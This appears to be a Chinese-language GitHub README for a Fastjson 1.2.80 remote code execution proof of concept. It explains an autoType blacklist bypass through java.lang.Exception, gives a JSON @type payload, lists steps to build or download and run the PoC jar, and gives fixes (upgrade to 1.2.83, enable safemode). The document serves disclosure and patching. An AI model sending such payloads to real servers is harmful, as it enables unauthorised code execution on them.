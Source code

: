 # fastjson-rce-1.2.80
Fastjson rce poc for 1.2.80 

### 漏洞成因
`autoType` 黑名单缺少了`Exception` 类，导致被绕过

### payload
```json
{
	"@type": "java.lang.Exception",
	"@type": "com.kk.domain.Poc",
	"name": "calc"
}
```

### 利用方式
1. 编译 `mvn clean package` ，或直接下载 [fastjson-rce-1.0.0.jar](https://github.com/dbgee/fastjson-rce-1.2.80/releases/download/v1.0.0/fastjson-rce-1.0.0.jar)
2. 运行 `java -jar .\target\fastjson-rce-1.0.0.jar`
3. 发送payload 
![](images/exp.png)

### 修复方式
1. 升级到最新版本 v1.2.83
2. 开启safemode
   1. 开启方法如下  

   ![](images/safemode.png)